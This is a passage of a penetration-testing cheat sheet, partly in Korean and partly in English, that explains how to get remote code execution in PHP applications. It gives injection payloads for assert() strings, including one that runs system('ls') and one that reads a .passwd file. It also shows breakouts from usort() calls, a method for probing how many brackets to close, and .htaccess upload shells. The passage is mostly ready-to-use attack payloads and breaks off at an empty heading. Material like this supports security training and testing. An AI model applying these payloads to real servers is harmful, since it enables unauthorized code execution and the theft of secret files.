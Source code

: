 이 php 내의 함수는 **문자열로 작성된 코드를 실행**하여 **true 또는 false를 반환**할 수 있게 해줍니다 (그리고 이에 따라 실행을 변경할 수 있습니다). 일반적으로 사용자 변수는 문자열의 중간에 삽입됩니다. 예를 들어:\
`assert("strpos($_GET['page']),'..') === false")` --> 이 경우 **RCE**를 얻기 위해 다음과 같이 할 수 있습니다:
```
?page=a','NeVeR') === false and system('ls') and strpos('a
```
당신은 **코드** **구문**을 **깨고**, **페이로드**를 **추가**한 다음 **다시 수정**해야 합니다. "**and" 또는 "%26%26" 또는 "|"**와 같은 **논리 연산**을 사용할 수 있습니다. "or", "||"는 작동하지 않으니 주의하세요. 첫 번째 조건이 참이면 우리의 페이로드가 실행되지 않기 때문입니다. 같은 이유로 ";"도 작동하지 않습니다. 우리의 페이로드가 실행되지 않기 때문입니다.

**다른 옵션**은 문자열에 명령 실행을 추가하는 것입니다: `'.highlight_file('.passwd').'`

**다른 옵션** (내부 코드를 가지고 있다면)은 실행을 변경하기 위해 일부 변수를 수정하는 것입니다: `$file = "hola"`

### **usort()를 통한 RCE**

이 함수는 특정 함수를 사용하여 항목 배열을 정렬하는 데 사용됩니다.\
이 함수를 악용하려면:
```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```

```php
<?php
function foo($x,$y){
usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
usort();}phpinfo;#, "cmp");
}?>
```
You can also use **//** to comment the rest of the code.

To discover the number of parenthesis that you need to close:

* `?order=id;}//`: we get an error message (`Parse error: syntax error, unexpected ';'`). We are probably missing one or more brackets.
* `?order=id);}//`: we get a **warning**. That seems about right.
* `?order=id));}//`: we get an error message (`Parse error: syntax error, unexpected ')' i`). We probably have too many closing brackets.

### **RCE via .httaccess**

If you can **upload** a **.htaccess**, then you can **configure** several things and even execute code (configuring that files with extension .htaccess can be **executed**).

Different .htaccess shells can be found [here](https://github.com/wireghoul/htshells)

### RCE via Env Variables
